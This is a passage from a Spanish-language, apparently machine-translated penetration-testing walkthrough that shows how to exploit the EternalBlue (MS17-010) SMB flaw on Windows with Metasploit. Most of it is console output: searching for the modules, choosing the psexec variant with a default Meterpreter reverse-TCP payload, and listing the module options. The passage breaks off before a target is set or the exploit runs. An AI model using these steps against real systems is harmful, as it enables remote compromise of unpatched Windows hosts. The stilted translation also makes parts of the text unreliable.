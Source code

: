 ```
```

Ahora, podemos ver en los resultados de la verificación que nuestro objetivo es probable que sea vulnerable a EternalBlue. Establezcamos el exploit y la carga útil ahora, luego pruébele.

1. Seleccione Exploit y carga útil, luego entregue

### **Elija y configure nuestra exploit y carga útil**

Infiltración de ventanas

```
msf6 > search eternal

Matching Modules
================

#  Name                                           Disclosure Date  Rank     Check  Description   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

Para este caso, cavamos a través de los módulos de exploit de MSF utilizando la función de búsqueda para buscar un exploit que coincida con EternalBlue. La lista anterior fue el resultado. Ya que he tenido más suerte con el`psexec`Versión de este exploit, intentaremos eso primero. Vamos a elegirlo y continuar la configuración.

### **Configurar el exploit y la carga útil**

Infiltración de ventanas

```
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
```
